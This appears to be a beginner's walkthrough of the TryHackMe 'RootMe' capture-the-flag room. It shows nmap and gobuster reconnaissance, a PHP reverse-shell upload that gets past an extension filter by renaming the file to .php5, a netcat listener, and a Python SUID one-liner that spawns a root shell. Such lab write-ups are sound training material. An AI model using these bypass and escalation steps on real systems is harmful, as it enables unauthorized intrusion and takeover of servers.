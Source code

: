 
# RootMe — Tryhackme

A ctf for beginners, can you root me?

[https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)

![](https://cdn-images-1.medium.com/max/2390/1*aYA-3lhFkpYlg-1AYVDoNg.png)

## **Task 2 — Reconnaissance**

[http://10.10.67.173](http://10.10.67.173)

![](https://cdn-images-1.medium.com/max/2368/1*-OBtC8ObjmYVcdyXpLDTGg.png)

**1. Scan the machine, how many ports are open?**

Let’s do a simple nmap scan.

    sudo nmap -sV 10.10.67.173

![](https://cdn-images-1.medium.com/max/2000/1*Jv7x5s2bBIl25HfasWOLeg.png)

**2. What version of Apache is running?
3. What service is running on port 22?
**See above

**4. Find directories on the web server using the GoBuster tool.**

    gobuster dir -u [http://10.10.67.173](http://10.10.67.173) -w /usr/share/wordlists/dirb/common.txt

**5. What is the hidden directory?**

![](https://cdn-images-1.medium.com/max/2000/1*mRZZy-SjzdhIUWR_ES0HKg.png)

## **Task 3 — Getting a shell**

**Find a form to upload and get a reverse shell, and find the flag.
user.txt**

Found a form in one of the hidden directories.

![](https://cdn-images-1.medium.com/max/2000/1*C9LJlfkxW5z4O9Vt5Mjc6g.png)

Let’s upload a php reverse shell by pentestmonkey.
[reverse shell here](https://github.com/pentestmonkey/php-reverse-shell).
[shell walk through here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

![](https://cdn-images-1.medium.com/max/2000/1*bePOSahkXTYQeLFgPYCW8g.png)

That is very not looking good, looks like our script upload was blocked.
Let’s change the php file extension to “php5" and upload it again.
(Explore on [file upload bypass](https://steflan-security.com/file-upload-restriction-bypass-cheat-sheet/) as this is about [File Upload Vilnerability](https://portswigger.net/web-security/file-upload))

![](https://cdn-images-1.medium.com/max/2000/1*V3gwad8g7ovBggHltHD3Gw.png)

We go on green.
Listen to the shell with netcat(changed my listening port).

    nc -lnvp 5555

Navigate to the php script and check netcat.
(Damn! I always forget disabling my firewall — parrot)

Finally!

![](https://cdn-images-1.medium.com/max/2146/1*G8p-nIRREyS3lUDLqqgr_A.png)

Let’s search for the flag user.txt

    find . -name user.txt 2>/dev/null

![](https://cdn-images-1.medium.com/max/2000/1*RKhzF3YvUTjD6pg_8ykd2w.png)

Nice, kill that rat!

## **Task 4 Privilege escalation**

**(Usually my best parts)**

**1. Search for files with SUID permission, which file is weird?.**

Using:

    find / -user root -perm /4000

Found python with SUID permissions meaning it does not drop elevated privileges.

![](https://cdn-images-1.medium.com/max/2000/1*gw25QJ7hivGvdZ2_69XHjg.png)

**2. Find a form to escalate your privileges.**

Let’s get root access with:

    python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![](https://cdn-images-1.medium.com/max/2000/1*8Hl-UBfrLgxb_DleKF5bFA.png)

See [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

There we go, we are powerful now.

**3. root.txt**

Let’s look for flag with:

    find . -name root.txt 2>/dev/null

![](https://cdn-images-1.medium.com/max/2000/1*GVKWpOvv41TG8SVzhTgJDg.png)

Nice, kill that rat!

Well, There are many ways of killing a rat!

[Let’s connect here](https://d-captainkenya.github.io/).

Happy Hacking.
